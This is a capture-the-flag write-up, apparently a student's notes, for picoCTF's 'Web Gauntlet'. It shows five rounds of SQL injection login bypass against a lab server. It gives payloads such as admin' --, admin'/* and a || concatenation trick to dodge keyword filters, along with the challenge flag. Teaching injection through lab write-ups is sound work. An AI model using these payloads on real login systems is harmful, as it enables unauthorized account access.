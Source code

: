 # 1. Web Gauntlet 

Can you beat the filters?
Log in as admin http://shape-facility.picoctf.net:58384/ http://shape-facility.picoctf.net:58384/filter.php

## Solution:

Open the given link ```http://shape-facility.picoctf.net:52907/``` 
We have to login as admin but we don’t have a password 

### Test login:
**Username-** admin
**Password-** hola

The SQL statement printed is 
```SELECT * FROM users WHERE username='admin ' AND password=‘hola'``` 

Using the website given ```http://shape-facility.picoctf.net:52827/filter.php``` it shows ```Round1: or```

### Round 1/5:

**Username-** admin' --
**Password-** ummmm 

```-- ``` comments out the password check so the query is now 
```SELECT * FROM users WHERE username='admin' --' AND password=‘ummmm'```

On reloading ```http://shape-facility.picoctf.net:52827/filter.php```, it shows  ```Round2: or and like = --```

After this ```-- ``` stopped working so Im assuming the things that are on ```http://shape-facility.picoctf.net:52827/filter.php``` are what can no longer be used. 

### Round 2/5:

**Username-** admin’/*
**Password-** idk

```/* ``` is a multi-line comment which comments out the password check so the query is now 
```SELECT * FROM users WHERE username='admin'/*' AND password=‘idk'```

On reloading ```http://shape-facility.picoctf.net:52827/filter.php```, it shows ```Round3: or and = like > < --```

### Round 3/5:

Because the last round didn’t mention that the same expression couldn’t be used so I used the same username 

**Username-** admin’/*
**Password-** k

The query is now,
```SELECT * FROM users WHERE username='admin'/*' AND password='k'```

On reloading ```http://shape-facility.picoctf.net:52827/filter.php```, it shows ```Round4: or and = like > < -- admin```

### Round 4/5:

**Username-** admi'||'n'/*
**Password-** yes

Use ```||``` to concatenate ```admi``` and ```n``` so the query is now,
```SELECT * FROM users WHERE username='admi'||'n'/*' AND password=‘yes'```

On reloading ```http://shape-facility.picoctf.net:52827/filter.php```, it shows ```Round5: or and = like > < -- union admin```


### Round 5/5:

Because the last round didn’t mention that the same expression couldn’t be used so I used the same username

**Username-** admi'||'n'/*
**Password-** done

The query is now, 
```SELECT * FROM users WHERE username='admi'||'n'/*' AND password=‘done'```

On reloading ```http://shape-facility.picoctf.net:52827/filter.php```, we finally get the flag. 

## Flag:
```
picoCTF{y0u_m4d3_1t_79a0ddc6}
```

## Concepts learnt:
- ```--``` is used in SQl for single line comments
- ```/*``` is used for multi-line comments
- ```||``` is used to concatenate two strings 

## Resources:
- [https://www.w3schools.com/sql/sql_comments.asp](url)
- [https://www.geeksforgeeks.org/sql/sql-concatenation-operator/](url)



